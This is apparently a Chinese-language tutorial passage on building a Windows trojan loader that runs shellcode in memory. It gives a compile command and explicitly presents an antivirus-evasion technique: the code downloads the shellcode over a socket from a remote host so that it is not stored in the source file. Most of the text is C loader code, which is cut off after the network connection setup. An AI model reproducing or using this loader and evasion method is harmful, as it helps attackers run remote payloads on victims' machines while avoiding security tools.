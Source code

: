 这就是一个简单的将shellcode加载进windows内存里执行的程序代码
## 编译
如果要编译，可以使用这个命令
```
x86_64-w64-mingw32-g++ --static muma.cpp -o muma.exe
```
这个程序没有经过免杀，所以很容易被杀

# 分离免杀
以下程序的免杀方式是用socket函数远程获取shellcode执行，不是将shellcode写入到源文件里，这是一种免杀方式
代码：
```
#include <windows.h>
#include <stdio.h>
#include <winsock2.h>
#include <ws2tcpip.h>

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")

#define DEFAULT_BUFLEN 4096

void power(char* host, char* port, char* resource) {

    DWORD oldp = 0;
    BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
        * ptr = NULL,
        hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;

    
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        return ;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
```